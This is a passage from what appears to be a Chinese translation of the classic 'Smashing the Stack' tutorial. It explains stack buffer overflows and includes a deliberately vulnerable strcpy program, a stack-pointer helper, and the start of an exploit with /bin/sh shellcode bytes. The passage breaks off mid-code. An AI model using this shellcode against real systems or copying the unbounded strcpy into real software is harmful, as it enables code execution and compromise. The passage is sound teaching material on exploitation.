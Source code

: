 ```
[aleph1]$ gcc -o exploit1 exploit1.c
[aleph1]$ ./exploit1
$ exit
exit
[aleph1]$
```

如上所示, 我们用`buffer[]`的地址来填充`large_string[]`数组, shellcode就将会在`buffer[]`之中. 然后我们把shellcode复制到`large_string`字串的开头. `strcpy()`不做任何边界检查就会将`large_string`复制到`buffer`中去, 并且覆盖返回地址. 现在的返回地址就是我们shellcode的起始位置. 一旦执行到`main`函数的尾部, 在试图返回时就会跳到我们的shellcode中, 得到一个 shell.

我们所面临的问题是: 当试图使另外一个程序的缓冲区溢出的时候, 如何确定这个缓冲区(会有我们的shellcode)的地址在哪? 答案是: 对于每一个程序, 堆栈的起始地址都是相同的. 大多数程序不会一次向堆栈中压入成百上千字节的数据. 因此知道了堆栈的开始地址, 我们可以试着猜出这个要使其溢出的缓冲区在哪. 下面的小程序会打印出它的堆栈指针:


sp.c

```c
unsigned long get_sp(void) {
    __asm__("movl %esp,%eax");
}
void main() {
    printf("0x%x\n", get_sp());
}
```

```

[aleph1]$ ./sp
0x8000470
[aleph1]$
```

假定我们要使其溢出的程序如下:

vulnerable.c

```c
void main(int argc, char *argv[]) {
    char buffer[512];

    if (argc > 1)
        strcpy(buffer,argv[1]);
}
```

我们创建一个程序可以接受两个参数, 一是缓冲区大小, 二是从其自身堆栈指针算起的偏移量(这个堆栈指针指明了我们想要使其溢出的缓冲区所在的位置). 我们把溢出字符串放到一个环境变量中, 这样就容易操作一些.

exploit2.c

```c
#include

#define DEFAULT_OFFSET 0
#define DEFAULT_BUFFER_SIZE 512

char shellcode[] =
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
    "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
    "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
    __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
    char *buff, *ptr;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
```